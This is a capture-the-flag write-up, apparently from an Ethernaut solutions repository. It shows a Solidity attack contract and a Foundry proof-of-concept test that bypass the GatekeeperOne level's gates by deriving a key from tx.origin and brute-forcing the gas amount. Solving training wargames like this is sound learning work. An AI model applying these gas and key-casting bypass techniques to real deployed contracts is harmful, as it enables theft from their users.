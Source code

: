 ## Malicious contract (GatekeeperOneAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./GatekeeperOne.sol";

contract GatekeeperOneAttack {
    GatekeeperOne gatekeeperOneContract;

    constructor(address _gatekeeperOneContract) public {
        gatekeeperOneContract = GatekeeperOne(_gatekeeperOneContract);
    }

    function attack(bytes8 _gateKey, uint256 _gasAmount) external {
        gatekeeperOneContract.enter{gas: _gasAmount}(_gateKey);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/13-GatekeeperOne.t.sol))

```solidity
  GatekeeperOneAttack gatekeeperOneAttack = new GatekeeperOneAttack(
            address(gatekeeperOneContract)
        );

        // GATE 3 condition 3
        uint64 _gateKeyUint = uint64(1 << 63) + uint64(uint16(tx.origin));
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string("_gateKeyUint = ");
        console.log(_gateKeyUint);
        emit log_string(
            "--------------------------------------------------------------------------"
        );

        bytes8 _gateKey = bytes8(_gateKeyUint);
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string("_gateKey = ");
        console.logBytes8(_gateKey);
        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // GATE 3 condition 2
        uint256 _gasAmount;

        for (uint256 i = 0; i <= 10000; i++) {
            try gatekeeperOneContract.enter{gas: 8191 * 10 + i}(_gateKey) {
                console.log("passed with gas ->", 8191 * 10 + i);
                _gasAmount = 8191 * 10 + i;

                break;
            } catch {}
        }

```